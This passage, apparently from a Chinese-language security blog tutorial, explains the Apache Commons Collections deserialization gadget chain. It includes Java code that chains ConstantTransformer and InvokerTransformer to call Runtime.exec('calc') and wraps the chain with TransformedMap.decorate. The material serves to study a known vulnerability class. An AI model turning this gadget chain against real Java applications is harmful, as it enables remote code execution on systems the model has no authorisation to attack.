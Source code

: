 注意传入参数的类型需要和构造函数一致。

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231115164427.png)

那么猜测肯定有地方能实例化InvokerTransformer或者调用其getInstance方法。根据利用链，再往上是ConstantTransformer

## 2.ConstantTransformer

构造函数的时候传入⼀个对象，并在transform方法将这个对象再返回：  

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231116124656.png)

## 3.ChainedTransformer

继续往上看：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231116130322.png)

ChainedTransformer也是实现了Transformer接口的⼀个类，它的作用是将内部的多个Transformer串
在⼀起。通俗来说就是，前⼀个回调返回的结果，作为后⼀个回调的参数传入，我们画⼀个图做示意：  

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231116132717.png)

将这几个Transformer整合起来：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class Test {
    public static void main(String[] args){
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec",new Class[] {String.class},new Object[] {"calc"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
    }
}

```

创建了⼀个ChainedTransformer，其中包含两个Transformer：第⼀个是ConstantTransformer，直接返回当前环境的Runtime对象；第⼆个是InvokerTransformer，执⾏Runtime对象的exec⽅法，参
数是calc 。
当然，这个transformerChain只是⼀系列回调，我们需要用其来包装innerMap，使用的下面Gadget Chain With TransformedMap说到的TransformedMap.decorate ：  

```java
Map innerMap = new HashMap();
Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
```
